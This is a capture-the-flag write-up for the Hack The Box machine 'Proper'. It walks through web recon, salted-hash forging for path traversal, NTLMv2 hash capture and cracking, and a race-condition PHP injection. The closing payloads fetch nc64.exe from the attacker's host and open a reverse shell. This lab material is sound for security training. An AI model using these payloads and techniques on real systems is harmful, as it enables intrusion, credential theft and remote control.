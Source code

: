 # Proper 
Rank : hard
IP : 10.10.10.231
OS : Windows

Setup 
```bash
echo "10.10.10.231 proper.htb" > /etc/hosts
```


# Recon

Fire up nmap 
```bash
nmap -sV -sC -v -P- -o nmapscan proper.htb
PORT   STATE SERVICE VERSION  
80/tcp open  http    Microsoft IIS httpd 10.0  
| http-methods:    
|   Supported Methods: OPTIONS TRACE GET HEAD POST  
|\_  Potentially risky methods: TRACE  
|\_http-server-header: Microsoft-IIS/10.0  
|\_http-title: OS Tidy Inc.  
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Lets go to the webpage. 

![[Pasted image 20210523122504.png]]

![[proper.pdf]]
Always start by looking at the source code of the page for any information 

As you see blow the id of these element looks very similar to usernames.
![[Pasted image 20210523123453.png]]

*User*
dustin
daksh
anna
wafer

And what appear to be hash id
![[Pasted image 20210523124404.png]]

hash = a1b30d31d344a5a4e41e8496ccbdd26b

Seems to be md5 hash. 

If you follow the link and remove the parameters to get to this source code 

![[Pasted image 20210523124645.png]]

Salt: hie0shah6ooNoim

What I see there two options salt\$hash or hash\$salt. 


While I was look at source code I started to do some enumeration on the site for looking for sites.  

```bash
└──╼ $ gobuster dir -u http://proper.htb -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -t 50 -k  
\===============================================================  
Gobuster v3.1.0  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
\===============================================================  
\[+\] Url:                     http://proper.htb  
\[+\] Method:                  GET  
\[+\] Threads:                 50  
\[+\] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt  
\[+\] Negative Status codes:   404  
\[+\] User Agent:              gobuster/3.1.0  
\[+\] Timeout:                 10s  
\===============================================================  
2021/05/23 12:27:33 Starting gobuster in directory enumeration mode  
\===============================================================  
/assets               (Status: 301) \[Size: 148\] \[--> http://proper.htb/assets/\]  
/.                    (Status: 200) \[Size: 14257\]                                 
/Assets               (Status: 301) \[Size: 148\] \[--> http://proper.htb/Assets/\]  
/licenses             (Status: 301) \[Size: 150\] \[--> http://proper.htb/licenses/\]  
/LICENSES             (Status: 301) \[Size: 150\] \[--> http://proper.htb/LICENSES/\]  
/ASSETS               (Status: 301) \[Size: 148\] \[--> http://proper.htb/ASSETS/\]     
/Licenses             (Status: 301) \[Size: 150\] \[--> http://proper.htb/Licenses/\]  
```

Assets lead us to 403 page. 
Licenses give us a login page. 
![[Pasted image 20210523123159.png]]

creds: 
vikki.solomon@throwaway.mail / password1


read.sh
```bash
#!/bin/bash

HOST=proper.htb
SALT=hie0shah6ooNoim
TRAV=$1
USER=vikki.solomon@throwaway.mail 
PASS=password1
COOKIE=$(mktemp -u)
PROXY=127.0.0.1:8080

#login
curl -c $COOKIE -s -o /dev/nul http://$HOST/licenses/index.php
curl -s \
	 -b $COOKIE \
	 -o /dev/null \
	 -d "username=${USER}&password=${PASS}" \
	 http://$HOST/licenses/index.php
	 
# SMB
curl -s \
	 -b $COOKIE \
	 -G \
	 -d "theme=${TRAV}" \
	 -d "h=$(echo -n ${SALT}${TRAV} | md5sum | cut -d' ' -f1)" \
	 -o /dev/null \
	 http://$HOST/licenses/licenses.php
	 
	 
# clean up 
rm -rf $COOKIE

```


smbserver 

```bash
sudo smbserver.py .ip 10.10.14.19 -smb2support  
Impacket v0.9.23.dev1+20210517.123049.a0612f00 - Copyright 2020 SecureAuth Corporation  
  
\[\*\] Config file parsed  
\[\*\] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0  
\[\*\] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0  
\[\*\] Config file parsed  
\[\*\] Config file parsed  
\[\*\] Config file parsed  
\[\*\] Incoming connection (10.10.10.231,51107)  
\[\*\] AUTHENTICATE\_MESSAGE (PROPER\\web,PROPER)  
\[\*\] User PROPER\\web authenticated successfully  
\[\*\] web::PROPER:aaaaaaaaaaaaaaaa:31c57ecad889ff706a19613a9ac43cf7:010100000000000080c0829ac94fd701917fc90872e5853c000000000100100076004100700047004800420052006400030010007600410070004700480042005200640  
002001000740076006d006800650071005300500004001000740076006d00680065007100530050000700080080c0829ac94fd7010600040002000000080030003000000000000000000000000020000031e4fa0b370783744895f0fb54460897ccef8ad6  
90cf42d360f3fd502db9edc90a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310039000000000000000000
```

Crack the hash using john 
```bash
sudo john hash --wordlist=/usr/share/wordlists/rockyou.txt  
Using default input encoding: UTF-8  
Loaded 1 password hash (netntlmv2, NTLMv2 C/R \[MD4 HMAC-MD5 32/64\])  
Will run 8 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
charlotte123!    (web)  
1g 0:00:00:05 DONE (2021-05-23 14:53) 0.1992g/s 197456p/s 197456c/s 197456C/s chrismmy..chaqueto  
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably  
Session completed
```
creds : web/charlotte123!

race condition scripts

```bash
#!/bin/bash
PAYLOAD=$1

while :; do
	echo hello world > header.inc
	echo "$PAYLOAD" > header.inc
done

```

```bash
./race.sh '<?php system("cmd /c powershell iwr http://10.10.14.19/nc64.exe -outf \windows\system32\spool\drivers\color\cute.exe"); ?>'

./race.sh '<?php system("cmd /c start \windows\system32\spool\drivers\color\cute.exe 10.10.14.19 1234 -e cmd.exe"); ?>'

```